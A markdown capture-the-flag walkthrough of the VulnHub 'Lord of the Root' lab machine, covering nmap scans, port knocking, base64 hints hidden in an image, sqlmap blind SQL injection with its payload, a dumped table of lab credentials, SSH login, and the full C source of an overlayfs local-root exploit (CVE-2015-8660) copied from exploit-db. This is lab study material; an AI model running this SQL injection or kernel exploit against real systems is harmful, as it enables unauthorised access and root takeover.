


[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)
[](#)

---
## 1. Network Configuration

**My - Host IP:** `10.38.1.112`  
**Interface Information (ifconfig):**

link to the machine -> [link](https://www.vulnhub.com/entry/lord-of-the-root-101,129/)

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.38.1.112  netmask 255.255.255.0  broadcast 10.38.1.255
        ether 08:00:27:0a:d2:1d  txqueuelen 1000  (Ethernet)
        RX packets 218  bytes 16824 (16.4 KiB)
        TX packets 262864  bytes 15775954 (15.0 MiB)

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether 08:00:27:f6:b2:b7  txqueuelen 1000  (Ethernet)
        RX packets 2036  bytes 191781 (187.2 KiB)
        TX packets 151  bytes 15959 (15.5 KiB)

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
```

**Note:** Machine is running in a virtual environment with an **Internal Adapter**.

---

## 2. Scanning for Machines on the Network

Using `nmap` to scan the range `10.38.1.112-130`:

```bash
nmap 10.38.1.112-130
```

**Results:**

```
Nmap scan report for 10.38.1.117
Host is up (0.0011s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 08:00:27:53:5C:8C (Oracle VirtualBox virtual NIC)
```

**Observations:**
- A new machine was detected at **`10.38.1.117`**.
- **Port 22 (SSH)** is open.

---

## 3. Attempt to SSH into Detected Machine

Attempting SSH as root on `10.38.1.117`:

```bash
ssh root@10.38.1.117
```

**Result:**

```
Permission denied, please try again.
```

**Observations:**
- A message **"KNOCK FRIEND TO ENTER"** was displayed, indicating **Port Knocking**.
- The hint **"Easy as 1, 2, 3"** suggests ports `1`, `2`, and `3` need to be knocked.

---

## 4. Port Knocking

Using `nmap` to check ports `1`, `2`, and `3`:

```bash
nmap -r -nP -p1,2,3 10.38.1.117
```

**Results:**

```
PORT  STATE    SERVICE
1/tcp filtered tcpmux
2/tcp filtered compressnet
3/tcp filtered compressnet
```

---

## 5. Full Port Scan

After knocking, running a full port scan:

```bash
nmap -p- 10.38.1.117
```

**Results:**

```
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

**Observations:**
- A new port **1337/tcp** is now open.

---

## 6. Investigating Port 1337

### 6.1 Checking HTTP Content on Port 1337

Using `curl` to check the content at `http://10.38.1.117:1337`:

```bash
curl http://10.38.1.117:1337
```

**Output:**

```html
<html>

</html>
```

**Observations:**
- The page contains an image **`iwilldoit.jpg`**.

---

### 6.2 Downloading and Analyzing the Image

#### Step 1: Download the Image

```bash
ls
```

**Output:**

```
info.txt  iwilldoit.jpg
```

#### Step 2: Inspect Metadata with ExifTool

```bash
exiftool iwilldoit.jpg
```

**Output:**

```
ExifTool Version Number         : 13.00
File Name                       : iwilldoit.jpg
Directory                       : .
File Size                       : 37 kB
File Modification Date/Time     : 2024:12:17 20:54:13+05:30
File Access Date/Time           : 2024:12:17 20:54:14+05:30
File Inode Change Date/Time     : 2024:12:17 20:54:14+05:30
File Permissions                : -rwxrwx---
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Image Width                     : 336
Image Height                    : 512
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 336x512
Megapixels                      : 0.172
```

**Observations:**
- Standard metadata; nothing unusual so far.

#### Step 3: Extract Strings from the Image

```bash
strings iwilldoit.jpg
```

**Output:**

```
JFIF
... (truncated for brevity)
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
idu>o
... ... ...
```

**Observations:**
- Found a Base64-encoded string.

#### Step 4: Decode Base64

```bash
echo THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh | base64 -d
```

**Output:**

```
Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!
```

**Observations:**
- Another Base64-encoded string was revealed.

#### Step 5: Decode Again

```bash
echo Lzk3ODM0NTIxMC9pbmRleC5waHA= | base64 -d
```

**Output:**

```
/978345210/index.php
```

**Observations:**
- Found the location of a new directory: `/978345210/index.php`.

---

## 7. Accessing the New Directory

Using `curl` to check the content of `/978345210/index.php`:

```bash
curl http://10.38.1.117:1337/978345210/index.php
```

**Output:**

```html
<!DOCTYPE html>
<html>
<head>
<title>LOTR Login!</title>
</head>
<body>
<div id="main">
<h1>Welcome to the Gates of Mordor</h1>
<div id="login">
<form action="" method="post">
<label>User :</label>
<input id="name" name="username" placeholder="username" type="text"><br>
<label>Password :</label>
<input id="password" name="password" placeholder="**********" type="password">
<br>
<input name="submit" type="submit" value=" Login ">
<span></span>
</form>
</div>
</div>
</body>
</html>
```

**Observations:**
- This page is a login form, hinting at credentials being required to proceed.

---

## 8. Summary of Findings So Far
1. Identified Base64-encoded hints leading to `/978345210/index.php`.
2. Discovered a login form at the new directory.

## 9. SQL Injection Testing with sqlmap

### 9.1 Testing for SQL Injection Vulnerability

We noticed that the login form in `/978345210/index.php` might be vulnerable to SQL injection. Using `sqlmap` to test for SQL injection on the `username` and `password` fields:

```bash
sqlmap -u 'http://10.38.1.117:1337/978345210/index.php' --data='username=username&password=password&submit=' --level=5 --risk=3
 https://sqlmap.org                                                                                                                
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:00:41 /2024-12-17/

[22:00:41] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:00:41] [INFO] resuming back-end DBMS 'mysql' 
[22:00:41] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=o9dpnvrlnrn...44aiourbv7'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 4492 FROM (SELECT(SLEEP(5)))juSH)-- mLUu&password=password&submit=
---
[22:00:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP, Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
[22:00:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.38.1.117'

[*] ending @ 22:00:44 /2024-12-17/
```
here We can notice that the operating system is Ubuntu and the DBMS is MySQL >= 5.0.12

Lets start our basic enumiration 

### 9.2 Enumirating the databases
```bash
sqlmap -u 'http://10.38.1.117:1337/978345210/index.php' --data='username=username&password=password&submit=' --level=5 --risk=3 --dbs
        ___
       __H__                                                                                                                                                 
 https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:02:17 /2024-12-17/

[22:02:17] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:02:17] [INFO] resuming back-end DBMS 'mysql' 
[22:02:17] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=aokhm5u0ss9...dbtnulide3'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 4492 FROM (SELECT(SLEEP(5)))juSH)-- mLUu&password=password&submit=
---
[22:02:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9, Apache 2.4.7, PHP
back-end DBMS: MySQL >= 5.0.12
[22:02:20] [INFO] fetching database names
[22:02:20] [INFO] fetching number of databases
[22:02:20] [INFO] resumed: 4
[22:02:20] [INFO] resumed: information_schema
[22:02:20] [INFO] resumed: Webapp
[22:02:20] [INFO] resumed: mysql
[22:02:20] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp

[22:02:20] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.38.1.117'

[*] ending @ 22:02:20 /2024-12-17/
```
Here we got the list of available databases
```
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp
```
### 9.2 Enumirating the list of tables in the database Webapp
```bash
sqlmap -u 'http://10.38.1.117:1337/978345210/index.php' --data='username=username&password=password&submit=' --level=5 --risk=3 -D Webapp --tables
```

```Output
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:04:29 /2024-12-17/

[22:04:30] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:04:30] [INFO] resuming back-end DBMS 'mysql' 
[22:04:30] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=b46u33ehbks...18a0tugd34'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 4492 FROM (SELECT(SLEEP(5)))juSH)-- mLUu&password=password&submit=
---
[22:04:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9, Apache 2.4.7, PHP
back-end DBMS: MySQL >= 5.0.12
[22:04:31] [INFO] fetching tables for database: 'Webapp'
[22:04:31] [INFO] fetching number of tables for database 'Webapp'
[22:04:31] [INFO] resumed: 1
[22:04:31] [INFO] resumed: Users
Database: Webapp
[1 table]
+-------+
| Users |
+-------+

[22:04:31] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.38.1.117'

[*] ending @ 22:04:31 /2024-12-17/

```

There is only one entry for the database tables in the database Webapp containing the users 

For further enumeration, we tend to dump all the data from the database and here we go 
### 9.3 Dumping the data in the table users

```bash 
sqlmap -u 'http://10.38.1.117:1337/978345210/index.php' --data='username=username&password=password&submit=' --level=5 --risk=3 -D Webapp -T Users --dump
```

```output
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:05:25 /2024-12-17/

[22:05:26] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:05:26] [INFO] resuming back-end DBMS 'mysql' 
[22:05:26] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=cmskdho7mi6...omrtvd1ld6'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 4492 FROM (SELECT(SLEEP(5)))juSH)-- mLUu&password=password&submit=
---
[22:05:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP, Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
[22:05:27] [INFO] fetching columns for table 'Users' in database 'Webapp'
[22:05:27] [INFO] resumed: 3
[22:05:27] [INFO] resumed: id
[22:05:27] [INFO] resumed: username
[22:05:27] [INFO] resumed: password
[22:05:27] [INFO] fetching entries for table 'Users' in database 'Webapp'
[22:05:27] [INFO] fetching number of entries for table 'Users' in database 'Webapp'
[22:05:27] [INFO] resumed: 5
[22:05:27] [INFO] resumed: 1
[22:05:27] [INFO] resumed: iwilltakethering
[22:05:27] [INFO] resumed: frodo
[22:05:27] [INFO] resumed: 2
[22:05:27] [INFO] resumed: MyPreciousR00t
[22:05:27] [INFO] resumed: smeagol
[22:05:27] [INFO] resumed: 3
[22:05:27] [INFO] resumed: AndMySword
[22:05:27] [INFO] resumed: aragorn
[22:05:27] [INFO] resumed: 4
[22:05:27] [INFO] resumed: AndMyBow
[22:05:27] [INFO] resumed: legolas
[22:05:27] [INFO] resumed: 5
[22:05:27] [INFO] resumed: AndMyAxe
[22:05:27] [INFO] resumed: gimli
Database: Webapp
Table: Users
[5 entries]
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | iwilltakethering | frodo    |
| 2  | MyPreciousR00t   | smeagol  |
| 3  | AndMySword       | aragorn  |
| 4  | AndMyBow         | legolas  |
| 5  | AndMyAxe         | gimli    |
+----+------------------+----------+

[22:05:27] [INFO] table 'Webapp.Users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.38.1.117/dump/Webapp/Users.csv'
[22:05:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.38.1.117'

[*] ending @ 22:05:27 /2024-12-17/
```

```Table
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | iwilltakethering | frodo    |
| 2  | MyPreciousR00t   | smeagol  |
| 3  | AndMySword       | aragorn  |
| 4  | AndMyBow         | legolas  |
| 5  | AndMyAxe         | gimli    |
+----+------------------+----------+
```

## 10 Now try to login ssh

```bash 
ssh sameagol@10.38.1.117
```
password is `MyPreciousR00t`


Here you goo with it we have logged in as `samegul`

```bash
Linux LordOfTheRoot 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux  
```

we got the version of the ubuntu version and we can check the internet for the xploits\

i have found one in the [link](https://www.exploit-db.com/exploits/39166/) 
 i have copied that and executed it in the machine to escalate the privilege
 ```code 
 /*
just another overlayfs exploit, works on kernels before 2015-12-26

# Exploit Title: overlayfs local root
# Date: 2016-01-05
# Exploit Author: rebel
# Version: Ubuntu 14.04 LTS, 15.10 and more
# Tested on: Ubuntu 14.04 LTS, 15.10
# CVE : CVE-2015-8660

blah@ubuntu:~$ id
uid=1001(blah) gid=1001(blah) groups=1001(blah)
blah@ubuntu:~$ uname -a && cat /etc/issue
Linux ubuntu 3.19.0-42-generic #48~14.04.1-Ubuntu SMP Fri Dec 18 10:24:49 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 14.04.3 LTS \n \l
blah@ubuntu:~$ ./overlayfail
root@ubuntu:~# id
uid=0(root) gid=1001(blah) groups=0(root),1001(blah)

12/2015
by rebel

6354b4e23db225b565d79f226f2e49ec0fe1e19b
*/

#include <stdio.h>
#include <sched.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>
#include <sys/wait.h>

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    system("rm -rf /tmp/haxhax");
    mkdir("/tmp/haxhax", 0777);
    mkdir("/tmp/haxhax/w", 0777);
    mkdir("/tmp/haxhax/u",0777);
    mkdir("/tmp/haxhax/o",0777);

    if (mount("overlay", "/tmp/haxhax/o", "overlay", MS_MGC_VAL, "lowerdir=/bin,upperdir=/tmp/haxhax/u,workdir=/tmp/haxhax/w") != 0) {
	fprintf(stderr,"mount failed..\n");
    }

    chmod("/tmp/haxhax/w/work",0777);
    chdir("/tmp/haxhax/o");
    chmod("bash",04755);
    chdir("/");
    umount("/tmp/haxhax/o");
    return 0;
}

int
main(int argc, char **argv)
{
    int status;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;
    struct stat s;

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    stat("/tmp/haxhax/u/bash",&s);

    if(s.st_mode == 0x89ed)
        execl("/tmp/haxhax/u/bash","bash","-p","-c","rm -rf /tmp/haxhax;python -c \"import os;os.setresuid(0,0,0);os.execl('/bin/bash','bash');\"",NULL);

    fprintf(stderr,"couldn't create suid :(\n");
    return -1;
}

source [exploit-db](https://www.exploit-db.com/exploits/39166)
```



# You can explore and can update the flags here ;)
